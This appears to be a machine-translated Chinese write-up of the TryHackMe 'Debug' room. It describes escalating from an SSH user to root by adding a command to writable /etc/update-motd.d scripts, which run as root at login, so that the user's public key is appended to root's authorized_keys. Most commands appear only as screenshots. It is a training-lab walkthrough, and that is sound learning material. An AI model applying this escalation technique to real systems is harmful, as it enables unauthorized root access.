

ssh 用户主目录和有趣的文件

和 user.txt 文件作为标志



user.txt

在用户主目录中，我们看到有一个“Note”文件，其中包含来自 root 用户的一些信息

据说当前的 ssh 用户拥有更改 MOTD 的特权

从 linpeas，网络服务器上的目录列表和 apache UBUNTU 默认网页，我们知道我们在一台 UBUNTU 机器上

在谷歌上快速搜索一下，我们会发现一篇关于 MOTD 在 ubuntu 上的位置的旧但有趣的博客文章

[](https://ownyourbits.com/2017/04/05/customize-your-motd-login-message-in-debian-and-ubuntu/) [## 在 Debian 和 Ubuntu 中定制你的 MOTD 登录信息

### bin/sh # #更新-motd -立即更新动态 MOTD # #版权所有(C) 2008-2014 达斯汀·柯克兰# #作者…

ownyourbits.com](https://ownyourbits.com/2017/04/05/customize-your-motd-login-message-in-debian-and-ubuntu/) 

事实上，我们可以在/etc/update-motd.d 中找到 motd 脚本



/etc/update-motd.d/文件

这些脚本被设置为可执行文件，并在用户登录机器时以 root 用户身份执行

通过向这些脚本添加命令，我们可以执行我们想要的任何命令，并且可以编辑它们，因为这些文件的所有者组已经设置为我们的用户

更多信息请点击此处

 [## Ubuntu 联机帮助页:更新-motd -动态 motd 生成

### 提供:libpam-modules _ 1 . 1 . 8-1 Ubuntu 2 _ amd64 名称更新-motd -动态 motd 生成概要…

manpages.ubuntu.com](http://manpages.ubuntu.com/manpages/trusty/man5/update-motd.5.html) 

从前面 linpeas 的执行中，我们知道允许 root 通过 ssh 登录，所以我们可以尝试向 root 的 authorized_keys /root/添加一个 ssh 公钥。ssh/目录



Linpeas SSH 文件部分



生成 SSH 密钥对


复制公钥



从复制的公钥文件中删除用户名，我知道它太小了

将公钥复制到用户主目录，并从公钥中删除用户名



编辑 MOTD 的一个剧本

在任一 motd 文件中添加命令，将用户公钥附加到 root 的授权密钥中

现在退出 ssh 会话，使用相同的用户再次登录，然后尝试使用新创建的私钥在本地主机上进行 ssh



有根！

我们是 root 用户，可以读取 root.txt 中的标志



root.txt 标志

TryHackMe 调试室到此结束

我希望你喜欢它。

PVXs

[](https://tryhackme.com/p/PVXs) [## TryHackMe | PVXs

### TryHackMe 是一个免费的学习网络安全的在线平台，使用动手练习和实验室，通过您的…

tryhackme.com](https://tryhackme.com/p/PVXs)